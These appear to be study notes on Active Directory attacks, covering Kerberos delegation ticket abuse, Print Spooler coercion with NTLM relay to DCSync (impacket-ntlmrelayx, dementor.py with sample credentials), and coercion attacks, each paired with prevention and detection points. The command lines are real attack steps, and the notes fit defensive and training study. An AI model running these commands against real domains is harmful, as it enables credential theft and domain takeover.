 ```

tgt::ask /domain: /user:svcIIS /password: 
tgs::s4u /tgt:[TICKET_NAME] /user:[USERNAME] /service:[Service]
kerberos::ptt [Ticket]

# Enter account
New-PSSession -ComputerName NAME
Enter-PSSession NAME

# Troubleshooting
klist purge + new ticket + reboot
```

- Prevention
  - Senstive account ofr privielged users
  - Protected users group 
- Detection
  - login not from Privileged Access Workstation
  - Transited Services: Service 4 User
  - ID 4624 (success)


### Print Spooler & NTLM Relaying
- Goal:
  - connect to other Maschine + retrieve TGT
  - Print Spoopler enabled = risk

- Paths
  - relay connection to another dc (smb signing disabled)
  - Force DC to connect to machine set for Unconstrained Delegation
  - relay connection to Certificate Services
  - relay connection to configure Resource-Based Kerberos Delation

```
# Relay connection to another DC + DCsycn
impacket-ntlmrelayx -t dcsync://IP -smb2support

# Trigger PrinterDebut from compromised
./dementor.py 172.16.18.20 172.16.18.3 -u bob -d eagle.local -p Slavi123
```

- Prevention
  - disable Print Spooler
  - disable RegisterSpoolerRemoteRpcEndPoint (1 enable, 2 disable)

- Detection
  - ID 4662 (DCsync)

- Honeypot:
  - block outbound connections

### Coercing attacks & Unconstrained Delegation
- Goal
  - similar to printerdebug + force authentication
